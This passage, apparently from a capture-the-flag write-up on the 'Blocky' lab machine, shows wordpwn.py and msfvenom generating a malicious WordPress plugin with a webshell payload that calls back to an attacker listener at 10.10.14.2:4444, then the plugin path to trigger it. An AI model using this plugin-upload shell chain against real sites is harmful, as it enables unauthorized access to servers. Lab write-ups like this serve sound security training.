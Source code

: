 ```
# python wordpwn.py 10.10.14.2 4444 Y
[*] Checking if msfvenom installed
[+] msfvenom installed
[+] Generating plugin script
[+] Writing plugin script to file
[+] Generating webshell payload
[+] Writing plugin script to file
[+] Generating payload To file
...................................At this point you'll see the malicious.zip in your CWD.
```

```
┌──(root㉿kali)-[/home/…/Downloads/Linux-Boxes/Blocky.htb/malicious-wordpress-plugin]
└─# ls
LICENSE.md  malicious.zip  README.md  wordpress.rc  wordpwn.py
```

![](Blocky_Web9.png)

The plugin uploaded successfully. Once you `Activate` the plugin, you will go to the following URL. Remember the above `python wordpwn.py 10.10.14.2 4444 Y` command is still running in a separate terminal.
`http://blocky.htb/wp-content/plugins/malicious/`

![](Blocky_Web10.png)
